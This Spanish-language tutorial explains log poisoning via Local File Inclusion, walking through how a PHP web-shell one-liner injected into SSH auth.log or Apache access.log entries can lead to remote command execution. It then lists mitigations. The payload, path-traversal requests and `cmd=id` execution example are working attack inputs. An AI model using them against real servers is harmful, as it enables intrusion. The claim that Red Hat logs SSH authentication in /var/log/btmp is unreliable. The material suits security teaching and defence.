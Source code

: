 
El **Log Poisoning** es una técnica de ataque que aprovecha vulnerabilidades en el manejo de archivos de registro para lograr objetivos maliciosos, como la **Ejecución Remota de Comandos (RCE)**. Es una estrategia particularmente peligrosa cuando se combina con vulnerabilidades de inclusión de archivos locales (**LFI**, Local File Inclusion).

A continuación, se presenta una explicación detallada sobre cómo funciona este ataque, ejemplos de escenarios prácticos y recomendaciones de mitigación.

---

### **¿Qué es el Log Poisoning?**

El Log Poisoning consiste en **inyectar código malicioso** en archivos de registro generados por una aplicación (como `auth.log` de SSH o `access.log` de Apache). Si la aplicación vulnerable tiene una falla de LFI, el atacante puede:

1. Acceder al archivo de registro.
2. Incluirlo en la ejecución de la aplicación.
3. Hacer que el servidor interprete el código malicioso inyectado, logrando RCE.

---

### **¿Cómo funciona?**

#### **Fases de un ataque de Log Poisoning**

1. **Explotación de LFI**:
    
    - El atacante aprovecha una vulnerabilidad de LFI para acceder a los archivos de registro del servidor, como:
        - `auth.log` de SSH.
        - `access.log` de Apache.
    - Ejemplo de solicitud LFI:
        
        ```
        http://example.com/index.php?page=../../var/log/auth.log
        ```
        
2. **Inyección de código malicioso**:
    
    - El atacante manipula las entradas registradas en los archivos de registro con código PHP u otros comandos maliciosos.
    - **Casos comunes**:
        - **Inyección en el campo de usuario** (SSH):  
            Durante un intento de autenticación SSH, el atacante introduce algo como:
            
            ```
            <?php system($_GET['cmd']); ?>
            ```
            
            Esto se registra en `auth.log`.
            
        - **Inyección en el campo User-Agent** (Apache):  
            En una solicitud HTTP, el atacante envía un encabezado User-Agent malicioso:
            
            ```
            User-Agent: <?php system($_GET['cmd']); ?>
            ```
            
            Esto se registra en `access.log`.
            
3. **Ejecución del código malicioso**:
    
    - La aplicación vulnerada incluye el archivo de registro con el código malicioso y lo ejecuta:
        
        ```
        http://example.com/index.php?page=../../var/log/access.log&cmd=id
        ```
        
    - En este ejemplo, el parámetro `cmd` ejecutará el comando `id` en el servidor.

---

### **Escenarios prácticos**

#### **1. Log Poisoning con `auth.log` (SSH)**

- El atacante realiza un intento de autenticación fallido en SSH utilizando el siguiente usuario:
    
    ```
    <?php system($_GET['cmd']); ?>
    ```
    
- Esto se registra en `/var/log/auth.log`:
    
    ```
    Failed password for <?php system($_GET['cmd']); ?> from 192.168.1.1 port 22 ssh2
    ```
    
- Posteriormente, el atacante accede al archivo mediante LFI y ejecuta el código PHP.

#### **2. Log Poisoning con `access.log` (Apache)**

- El atacante envía una solicitud HTTP con un User-Agent malicioso:
    
    ```
    GET / HTTP/1.1
    Host: example.com
    User-Agent: <?php system($_GET['cmd']); ?>
    ```
    
- Esto queda registrado en `/var/log/apache2/access.log`:
    
    ```
    192.168.1.1 - - [25/Jan/2025:10:00:00 +0000] "GET / HTTP/1.1" 200 - "<?php system($_GET['cmd']); ?>"
    ```
    
- Luego, incluye el archivo con una solicitud LFI para ejecutar comandos en el servidor.

---

### **Consideraciones sobre archivos de registro**

1. **Sistemas basados en Debian/Ubuntu**:
    
    - Los eventos de autenticación SSH generalmente se registran en `/var/log/auth.log`.
2. **Sistemas basados en Red Hat/CentOS**:
    
    - Estos sistemas suelen registrar los eventos de autenticación en `/var/log/btmp`.
3. **Otros nombres de archivos**:
    
    - Algunos sistemas pueden tener configuraciones específicas que utilicen nombres distintos para los logs.

---

### **Mitigación del Log Poisoning**

1. **Validación de entradas del usuario**:
    
    - Sanitizar las entradas antes de escribirlas en los registros.
    - Ejemplo en PHP:
        
        ```php
        $user_input = htmlspecialchars($_GET['input'], ENT_QUOTES, 'UTF-8');
        ```
        
2. **Evitar vulnerabilidades LFI**:
    
    - Validar las rutas y nombres de archivo permitidos:
        
        ```php
        $allowed_pages = ['home', 'about', 'contact'];
        if (in_array($_GET['page'], $allowed_pages)) {
            include($_GET['page'] . '.php');
        } else {
            die('Acceso denegado');
        }
        ```
        
3. **Restringir permisos de archivos de registro**:
    
    - Limitar el acceso a archivos como `auth.log` y `access.log` solo a usuarios autorizados.
    - Configurar permisos adecuados:
        
        ```bash
        chmod 640 /var/log/auth.log
        chown root:adm /var/log/auth.log
        ```
        
4. **Evitar interpretaciones directas de logs**:
    
    - Deshabilitar las inclusiones dinámicas de archivos o directorios en código del servidor.
5. **Configuración de PHP**:
    
    - Deshabilitar la ejecución remota y las inclusiones de archivos:
        
```ini
allow_url_include = Off
allow_url_fopen = Off
```
        
6. **Uso de herramientas de seguridad**:
    
    - Implementar Web Application Firewalls (WAF) para detectar y bloquear solicitudes maliciosas.

---

### **Conclusión**

El Log Poisoning es un ataque sofisticado que, al combinarse con LFI, puede comprometer gravemente un servidor. Por ello, es fundamental implementar buenas prácticas de programación, proteger los archivos de registro y realizar pruebas de seguridad periódicas para mitigar riesgos.

[[OWASP]]
[[Local File Inclusion (LFI)]]
